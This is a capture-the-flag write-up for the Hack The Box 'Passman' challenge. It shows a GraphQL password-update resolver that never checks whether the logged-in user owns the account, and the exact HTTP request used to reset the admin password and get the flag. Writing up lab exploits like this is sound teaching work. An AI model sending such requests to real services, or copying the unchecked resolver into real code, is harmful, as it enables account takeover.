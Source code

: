 ## Passman :: Easy

#### Scenario

```
Pandora discovered the presence of a mole within the ministry.
To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager.
Can you hack into the password manager?
```

#### Solve

![](/images/passman-source-tree.png)

When we begin this challenge, we arrive on this landing page:

![](/images/passman_login.png)

It seems like we can `Login` and `Register` a new account.
Let's inspect the logic behind these functionalities in the source.
It seems like these are handled by `GraphQL` mutations.

These mutations are in the `helper/GraphQLHelper.js` file.

It seems like there are three mutations pertaining to the authentication of users:

- `RegisterUser`: Handles the creation of a new user.
- `LoginUser`: Handles the authentication of a user.
- `UpdatePassword`: Handles the password update functionality for a user.

It seems like there is some logic flaw in the `UpdatePassword` mutation.
Let's take a look:
```javascript
        UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
```

This feature does not validate that the initiator is the target of the password change.

We can see that it check if `request.user` exists.
But then it uses `args.username` to specify which user to reset.

Letting us change the password for any user.

Here is the request used to changed the `admin` password:

```http
POST /graphql HTTP/1.1
Host: 178.128.174.19:30312
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.128.174.19:30312/
Content-Type: application/json
Origin: http://178.128.174.19:30312
Content-Length: 192
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNrdWxsa2lkIiwiaXNfYWRtaW4iOjAsImlhdCI6MTY3OTE0NzI3Mn0.TrQXKqwG2KN2GMkwZwftQz3iw8ftKbusYtPYYtLeLfk;
Connection: close


{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"taken-over"}}
```

Using this request, will reset the `admin` user's password for `taken-over`.

Once this request is done, we can authenticate as `admin` and obtain the flag.

![](/images/passman_flag.png)

```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```

